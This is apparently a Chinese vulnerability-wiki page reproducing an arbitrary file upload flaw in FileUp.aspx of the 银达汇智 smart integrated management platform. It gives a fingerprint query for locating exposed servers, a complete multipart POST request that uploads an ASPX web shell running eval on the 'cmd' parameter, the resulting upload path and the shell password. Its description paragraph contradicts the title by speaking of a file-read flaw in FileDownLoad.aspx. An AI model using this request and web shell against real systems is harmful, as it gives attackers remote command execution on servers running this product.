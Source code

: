 # 银达汇智 智慧综合管理平台 FileUp.aspx 任意文件上传漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

<a-checkbox checked>银达汇智 智慧综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"汇智信息" && title=="智慧综合管理平台登入"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed.png)

文件上传请求包

```bash
POST /Module/FileUpPage/FileUp.aspx?orgid=1&type=NNewsContent HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 337
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=62907949903a4c499178971c9dab4ad9

--62907949903a4c499178971c9dab4ad9
Content-Disposition: form-data; name="Filedata"; filename="abc.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript"%><%Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("abc", "MD5").ToLower());eval(Request.Item["cmd"],"unsafe");%>
--62907949903a4c499178971c9dab4ad9--
```

![img](../../../.vuepress/public/img/1629368451848-7ecbcd3e-82cc-4608-b9a9-a312826248ea.png)

响应包会返回文件名，上传的目录为

```bash
/imgnews/imgcontent/1/xxxxxxxxxx.aspx
```

![img](../../../.vuepress/public/img/1629368525052-fffda86a-30fa-4dc0-a3a0-537a0be5b5c3.png)

出现如图成功上传木马，密码为 **cmd**